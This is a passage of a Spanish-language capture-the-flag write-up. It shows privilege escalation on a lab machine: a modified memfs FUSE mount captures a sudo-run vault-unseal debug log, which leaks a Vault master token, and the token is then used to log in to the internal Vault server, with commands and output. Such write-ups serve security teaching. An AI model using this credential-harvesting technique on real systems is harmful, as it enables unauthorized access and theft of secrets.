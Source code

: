 Después de volverme loco un rato, añadí esta línea en el `main.go` de `memfs`, lo montamos otra vez y nos lo mandamos a la máquina víctima.
![Write-up Image](images/Screenshot_22.png)

Ahora creamos otra vez la montura en una carpeta distinta.
```console
askyy@skyfall:~$ mkdir /tmp/test3
askyy@skyfall:~$ ./memfs /tmp/test3/ test
Mounted!
```

Y ahora sí, vemos que ahora `debug.log` es del usuario `askyy`
```console
askyy@skyfall:/tmp/test3$ sudo /root/vault/vault-unseal -c /etc/vault-unseal.yaml -d
[>] Checking seal status
[+] Vault sealed: false
askyy@skyfall:/tmp/test3$ ls -la
total 8
drwxrwxrwx  1 askyy askyy    0 Sep  5 18:57 .
drwxrwxrwt 15 root  root  4096 Sep  5 18:57 ..
-rw-------  1 askyy askyy  555 Sep  5 18:57 debug.log
```

Al leerlo vemos otro token distinto que el que teníamos para `vault`
```console
askyy@skyfall:/tmp/test3$ cat debug.log 
2024/09/05 18:57:55 Initializing logger...
2024/09/05 18:57:55 Reading: /etc/vault-unseal.yaml
2024/09/05 18:57:55 Master token found in config: hvs.I0ewVsmaKU1SwVZAKR3T0mmG
2024/09/05 18:57:55 Found Vault node: http://prd23-vault-internal.skyfall.htb
2024/09/05 18:57:55 Check interval: 5s
2024/09/05 18:57:55 Max checks: 5
2024/09/05 18:57:55 Establishing connection to Vault...
2024/09/05 18:57:55 Successfully connected to Vault: http://prd23-vault-internal.skyfall.htb
2024/09/05 18:57:55 Checking seal status
2024/09/05 18:57:55 Vault sealed: false
```

El token es `hvs.I0ewVsmaKU1SwVZAKR3T0mmG`

## Generating OTP for root

Ahora podemos utilizar este token para iniciar sesión con `vault`
```console
$ export VAULT_ADDR=http://prd23-vault-internal.skyfall.htb
┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/skyfall/content]
└──╼ [★]$ vault login
Token (will be hidden): 
Success! You are now authenticated. The token information displayed below
is already stored in the token helper. You do NOT need to run "vault login"
again. Future Vault requests will automatically use this token.

Key                  Value
---                  -----
token                hvs.I0ewVsmaKU1SwVZAKR3T0mmG
token_accessor       bXBeXR3r92WGQ8XgEDx6pIFu
```
